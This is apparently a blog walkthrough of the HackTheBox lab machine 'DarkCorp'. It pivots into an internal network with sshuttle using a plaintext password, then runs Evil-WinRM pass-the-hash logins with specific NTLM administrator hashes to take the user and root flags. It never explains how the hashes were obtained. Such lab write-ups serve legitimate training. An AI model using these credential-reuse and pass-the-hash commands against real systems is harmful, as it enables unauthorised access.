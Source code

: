 ```yaml
---
title: "DarkCorp - HackTheBox Season 7 Walkthrough"
date: 2025-02-12
author: "Ans Inayat"
categories: [HackTheBox, Penetration Testing]
image: 
  path: https://pbs.twimg.com/media/GjHp3BjWcAAQAVB.jpg
  description: DarkCorp Walkthrough - HackTheBox Season 7
---
```


## Introduction

DarkCorp is a HackTheBox Season 7 machine that requires pivoting through an internal network using `sshuttle`. This guide will walk you through the steps to gain user and root access.

---

## Initial Access - Pivoting into the Internal Network

First, we need to establish access to the internal network using `sshuttle`. Clone the repository and navigate into the directory:

```bash
git clone https://github.com/sshuttle/sshuttle.git
cd sshuttle
```

Run `sshuttle` to establish a connection:

```bash
./run -r ebelford@<target-ip> -N 172.16.20.0/24
```

Alternatively, you can use:

```bash
sshuttle -r ebelford@<target-ip> -N 172.16.20.0/24
```

Enter the password when prompted:

```
password: ThePlague61780
```

Once connected, we have access to the internal network.

![SSHuttle Connection](https://iili.io/2m0S96X.png)

---

## User Access

With network access established, we can log in using Evil-WinRM to retrieve the user flag:

```bash
evil-winrm -i 172.16.20.1 -u "administrator" -H 'fcb3ca5a19a1ccf2d14c13e8b64cde0f'
```

![User Flag](https://iili.io/2m0Sdas.png)

Retrieve the user flag:

```
user flag: <flag_here>
```

Exit the session before proceeding to root access:

```bash
exit
```

---

## Root Access

To obtain root privileges, we log in to the second machine:

```bash
evil-winrm -i 172.16.20.2 -u Administrator -H '88d84ec08dad123eb04a060a74053f21'
```

![Root Flag](https://iili.io/2m0SJFn.png)

Retrieve the root flag:

```
root flag: <flag_here>
```

---

## Conclusion

The DarkCorp machine required pivoting using `sshuttle` to gain internal network access, followed by using Evil-WinRM for privilege escalation. This exercise demonstrated network pivoting and Windows privilege escalation techniques essential for red teaming.

Happy hacking! 🚀
